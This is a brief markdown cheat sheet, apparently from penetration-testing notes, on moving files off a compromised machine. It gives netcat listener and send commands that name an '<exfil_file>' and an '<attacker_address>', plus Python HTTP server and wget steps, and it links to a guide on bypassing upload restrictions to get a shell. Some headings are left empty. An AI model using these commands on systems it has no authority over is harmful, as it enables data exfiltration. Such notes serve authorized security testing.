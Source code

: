 # File Transfer

## Copy file from remote machine

- ### netcat
  Start netcat listener on recieving machine and transmit file via host
 
  1. (recieving machine)

		 nc -nlvp <unused_port> > <exfil_file>
  
  2. (host machine)      

		 nc -nv <attacker_address> <unused_port> -w 3 < <target_file>

- ### SimpleHTTPServer
  
  Start SimpleHTTPServer on host machine and retrieve file via receiving machine
  
  Replace/modify sshd_config to allow moving files to and from remote machine
  
  #### Python  
  1. (host machine)

		 python -m SimpleHTTPServer <unused_port>
 
  2. (recieving machine)

		 wget <attacker_address>:<unused port>/<file_path>

  ##### Python3
  1. (host machine)    

		 python3 -m http.server <port>
 
  2. (recieving machine)

		 wget <attacker_address>:<port>/<file_path>

- ### sftp
    
- ### scp

## Bypassing File Upload Restrictions
https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/